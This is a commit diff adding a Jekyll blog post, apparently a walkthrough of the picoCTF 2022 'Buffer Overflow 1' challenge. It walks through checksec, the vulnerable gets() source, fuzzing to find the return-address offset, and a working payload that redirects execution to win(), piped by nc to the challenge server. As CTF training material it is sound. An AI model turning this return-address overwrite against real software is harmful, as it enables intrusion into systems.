

Before and after one commit to zaneef/zaneef.github.io, a Jekyll site: the page built from _posts/2022-05-17-pico-ctf-2022-bufffer-overflow-1.md, in a window 1280 px wide. Shown: the top 1912 px of the page at 80% size, without its empty margins (163-1116 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1284 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
pico22 - bof0/1

````diff
--- /dev/null
+++ b/_posts/2022-05-17-pico-ctf-2022-bufffer-overflow-1.md
@@ -0,0 +1,169 @@
+---
+title: picoCTF 2022 - Buffer Overflow 1
+tags: [pico22, bof, pwn]
+---
+
+Let's gather some information before attempting to execute the binary
+
+```bash
+$ file vuln
+vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=96273c06a17ba29a34bdefa9be1a15436d5bad81, for GNU/Linux 3.2.0, not stripped
+
+$ pwn checksec vuln
+    Arch:     i386-32-little
+    RELRO:    Partial RELRO
+    Stack:    No canary found
+    NX:       NX disabled
+    PIE:      No PIE (0x8048000)
+    RWX:      Has RWX segments
+```
+
+We have a 32 bit ELF dynamically liked and not stripped. There's also no canary stack protection. Let's check the source code
+
+```c
+#include <stdio.h>
+#include <stdlib.h>
+#include <string.h>
+#include <unistd.h>
+#include <sys/types.h>
+#include "asm.h"
+
+#define BUFSIZE 32
+#define FLAGSIZE 64
+
+void win() {
+  char buf[FLAGSIZE];
+  FILE *f = fopen("flag.txt","r");
+  if (f == NULL) {
+    printf("%s %s", "Please create 'flag.txt' in this directory with your",
+                    "own debugging flag.\n");
+    exit(0);
+  }
+
+  fgets(buf,FLAGSIZE,f);
+  printf(buf);
+}
+
+void vuln(){
+  char buf[BUFSIZE];
+  gets(buf);
+
+  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
+}
+
+int main(int argc, char **argv){
+
+  setvbuf(stdout, NULL, _IONBF, 0);
+
+  gid_t gid = getegid();
+  setresgid(gid, gid, gid);
+
+  puts("Please enter your string: ");
+  vuln();
+  return 0;
+}
+```
+
+We can clearly see that inside the `vuln()` function is used the `gets()` function that is notoriously vulnerable to buffer overflow. The buffer is 32 bytes long so with an input greater than that the program will write memory spaces over the buffer limits.
+
+```c
+void vuln(){
+  char buf[BUFSIZE];
+  gets(buf);
+
+  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
+}
+```
+
+We can also see that there's another function, that is never called, that prints out the flag
+
+```c
+void win() {
+  char buf[FLAGSIZE];
+  FILE *f = fopen("flag.txt","r");
+  if (f == NULL) {
+    printf("%s %s", "Please create 'flag.txt' in this directory with your",
+                    "own debugging flag.\n");
+    exit(0);
+  }
+
+  fgets(buf,FLAGSIZE,f);
+  printf(buf);
+}
+```
+
+With a buffer overflow we can overwrite the return address with the `win()` function address, and when the current function ends, the program will jump to it.
+
+We can execute the binary and check its behaviour with inputs greater than 32 bytes.
+
+
+```bash
+$ python -c "print("A" * 32)" | ./vuln
+Please enter your string:
+Okay, time to return... Fingers Crossed... Jumping to 0x804932f
+
+$ python -c "print('A' * 36)" | ./vuln
+Please enter your string:
+Okay, time to return... Fingers Crossed... Jumping to 0x804932f
+
+$ python -c "print('A' * 40)" | ./vuln
+Please enter your string:
+Okay, time to return... Fingers Crossed... Jumping to 0x804932f
+zsh: done                python -c "print('A' * 40)" |
+zsh: segmentation fault  ./vuln
+```
+
+We can see that the program threw a segmentation fault: this indicates that the program overwritten some memory addresses that allowed it to function properly. We can also notice that the return addresses did not change. Let's try to give the program even larger inputs
+
+```bash
+$ python -c "print('A' * 44)" | ./vuln
+Please enter your string:
+Okay, time to return... Fingers Crossed... Jumping to 0x8049300
+zsh: done                python -c "print('A' * 44)" |
+zsh: segmentation fault  ./vuln
+
+$ python -c "print('A' * 48)" | ./vuln
+Please enter your string:
+Okay, time to return... Fingers Crossed... Jumping to 0x41414141
+zsh: done                python -c "print('A' * 48)" |
+zsh: segmentation fault  ./vuln
+```
+
+With 48 bytes we can clearly see that the return address has been overwritten with `0x41414141` (hexadecimal representation for `AAAA`). What does this means? With 44 bytes we overwrite the stack to the very beginning of the `$eip` (return address) and each subsequent will override the register. We can confirm our hypotesis by giving the binary a 45 bytes input. If we are correct, we expect a single byte overflow
+
+```bash
+$ python -c "print('A' * 45)" | ./vuln
+Please enter your string:
+Okay, time to return... Fingers Crossed... Jumping to 0x8040041
+zsh: done                python -c "print('A' * 45)" |
+zsh: segmentation fault  ./vuln
+```
+
+We can see that `$eip` was overwritten with only one `0x41`. Let's find out the `win()` function address
+
+```bash
+$ readelf -s vuln
+63: 080491f6   139 FUNC    GLOBAL DEFAULT   13 win
+```
+
+We can create our payload and exploit the binary (remember to create the flag file `flag.txt` otherwise you will not see the result).
+
+```bash
+$ touch "Buffer Overflow HERE" >> flag.txt
+
+$ python -c "print('A' * 44 + '\xf6\x91\x04\x08')" | ./vuln
+Please enter your string:
+Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
+Buffer Overflow HERE
+zsh: done                python -c "print('A'*44 + '\xf6\x91\x04\x08')" |
+zsh: segmentation fault  ./vuln
+```
+
+Works like a charm. Let's exploit the remote service and get the flag.
+
+```bash
+$ python -c "print('A' * 44 + '\xf6\x91\x04\x08')" | nc saturn.picoctf.net 51539
+Please enter your string:
+Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
+picoCTF{addr3ss3s_ar3_3asy_[redacted]}
+```
````
Also changed, not shown: _posts/2022-05-15-pico-ctf-2022-buffer-overflow-0.md (renamed from _posts/2022-08-03-pico-ctf-2022-buffer-overflow-0.md, +6 -6 lines), _posts/2022-08-03-pico-ctf-2022-bufffer-overflow-1.md (deleted, +0 -4 lines).
